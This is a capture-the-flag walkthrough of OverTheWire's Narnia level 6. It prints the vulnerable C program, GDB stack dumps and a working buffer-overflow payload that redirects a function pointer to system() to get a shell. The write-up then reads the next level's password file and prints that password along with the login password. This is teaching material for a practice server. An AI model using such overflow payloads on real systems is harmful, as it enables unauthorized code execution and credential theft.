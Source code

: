## Login 

` SSH : ssh narnia6@narnia.labs.overthewire.org -p 2226 `
` Pass : BNSjoSDeGL `

## Solution

First, let’s try to execute the program…

```
$ ssh narnia6@narnia.labs.overthewire.org -p 2226

narnia6@narnia:~$ cd /narnia/
narnia6@narnia:/narnia$ ./narnia6
./narnia6 b1 b2
narnia6@narnia:/narnia$ ./narnia6 123 456
123
```

It seems that the program takes 2 arguments and print the first one. Let’s check the source code to understand how it works.
### Source Code

Here is the source :

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));

	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);

	setreuid(geteuid(),geteuid());
    fp(b1);

	exit(1);
}
```

If we skim-through the code, our arguments are respectively copied into **b1** and **b2**. Also the **fp** variable is pointing to the _puts()_ function, that’s why `fp(b1)` prints our first arguments.

If we run GDB and place a breakpoint at `fp(b1)` and analyse the stack, we should be able to see where are our variables in memory.

```
$ gdb narnia6

(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080485a8 <+0>:	push   ebp
   0x080485a9 <+1>:	mov    ebp,esp
   0x080485ab <+3>:	push   ebx
   0x080485ac <+4>:	sub    esp,0x18
   0x080485af <+7>:	mov    DWORD PTR [ebp-0xc],0x8048430
 
...[removed]...

   0x080486d1 <+297>:	call   0x8048410 <geteuid@plt>
   0x080486d6 <+302>:	push   ebx
   0x080486d7 <+303>:	push   eax
   0x080486d8 <+304>:	call   0x8048450 <setreuid@plt>
   0x080486dd <+309>:	add    esp,0x8
   0x080486e0 <+312>:	lea    eax,[ebp-0x14]
   0x080486e3 <+315>:	push   eax
   0x080486e4 <+316>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080486e7 <+319>:	call   eax ; Break here
   0x080486e9 <+321>:	add    esp,0x4
   0x080486ec <+324>:	push   0x1
   0x080486ee <+326>:	call   0x8048440 <exit@plt>
End of assembler dump.
(gdb) break *main+319
Breakpoint 1 at 0x80486e7
(gdb) run AAAA BBBB
Starting program: /narnia/narnia6 AAAA BBBB

Breakpoint 1, 0x080486e7 in main ()
(gdb) x/16wx $esp
0xffffd678:	0xffffd684	0x42424242	0xf7fc5300	0x41414141
0xffffd688:	0x08048700	0x08048430	0x00000003	0x00000000
0xffffd698:	0x00000000	0xf7e2a286	0x00000003	0xffffd734
0xffffd6a8:	0xffffd744	0x00000000	0x00000000	0x00000000
(gdb)
(gdb) x/x $eax
0x8048430 <puts@plt>:	0x99c825ff
```

Here, we can see our arguments **AAAA** (`0x41414141`) and **BBBB** (`0x42424242`). Also, we can see the pointer to the _puts()_ function contained in **EAX** (`0x8048430`). The address of _puts()_ is higher on the stack so, we should be able to overwrite it. Let’s try…

```
(gdb) run AAAAAAAACCCC BBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia6 AAAAAAAACCCC BBBB

Breakpoint 1, 0x080486e7 in main ()
(gdb) x/16wx $esp
0xffffd678:	0xffffd684	0x42424242	0xf7fc5300	0x41414141
0xffffd688:	0x41414141	0x43434343	0x00000000	0x00000000
0xffffd698:	0x00000000	0xf7e2a286	0x00000003	0xffffd734
0xffffd6a8:	0xffffd744	0x00000000	0x00000000	0x00000000
(gdb) x/x $eax
0x43434343:	Cannot access memory at address 0x43434343
```

Looks very good ! Now, the idea would be to overwrite the return address with the address of _system()_ and call a shell.

```
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e4c850 <system>
(gdb) run $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia6 $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')

Breakpoint 1, 0x080486e7 in main ()
(gdb) x/16wx $esp
0xffffd678:	0xffffd684	0x42424242	0xf7fc5300	0x413b6873
0xffffd688:	0x41414141	0xf7e4c850	0x00000000	0x00000000
0xffffd698:	0x00000000	0xf7e2a286	0x00000003	0xffffd734
0xffffd6a8:	0xffffd744	0x00000000	0x00000000	0x00000000
(gdb) continue
Continuing.
$
```

We got a shell ! Now, let’s do the same outside GDB.

```
narnia6@narnia:/narnia$ ./narnia6 $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
54RtepCEU0
```

Done !